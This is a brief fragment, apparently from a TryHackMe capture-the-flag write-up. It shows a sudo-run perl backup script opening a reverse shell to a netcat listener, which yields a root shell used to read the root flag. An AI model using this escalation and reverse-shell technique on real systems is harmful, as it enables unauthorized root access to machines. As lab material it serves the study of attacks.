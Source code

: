 ```
$ sudo /usr/bin/perl /home/itguy/backup.pl
$ Successfully opened reverse shell to 10.17.15.106:1234
```

```
$ nc -nlvp 1234
Connection from 10.10.39.105:44052
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:46:00 up 44 min,  0 users,  load average: 0,00, 0,00, 0,09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d01***************}
```

# CONGRAGULATIONS !💫
